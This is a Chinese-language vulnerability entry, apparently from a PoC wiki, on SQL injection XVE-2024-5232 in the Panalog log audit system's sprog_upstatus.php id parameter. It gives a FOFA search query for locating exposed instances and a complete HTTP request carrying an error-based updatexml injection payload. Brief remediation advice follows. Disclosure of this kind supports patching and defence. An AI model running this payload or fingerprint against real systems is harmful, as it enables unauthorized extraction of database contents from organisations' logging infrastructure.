

# Panalog 日志审计系统 sprog_upstatus.php SQL 注入漏洞(XVE-2024-5232)

# 漏洞描述

 /Maintain/sprog_upstatus.php 接口处的 id 参数存在 SQL 注入漏洞，可导致数据库信息泄露从而获取敏感信息，甚至可能被攻击者进一步利用造成更大危害。

影响版本

Panalog 日志审计系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="Maintain/cloud_index.php"

POC/EXP：

GET /Maintain/sprog_upstatus.php?status=1&rdb=1&id=1%20and%20updatexml(1,concat(0x7e,version(),0x7e),1) HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Accept: */*
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9

# 修复方案

1. 对传入的 sql 语句进行预编译处理。

   部署Web应用防火墙，对数据库操作进行监控。
   
   如非必要，禁止公网访问该系统。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
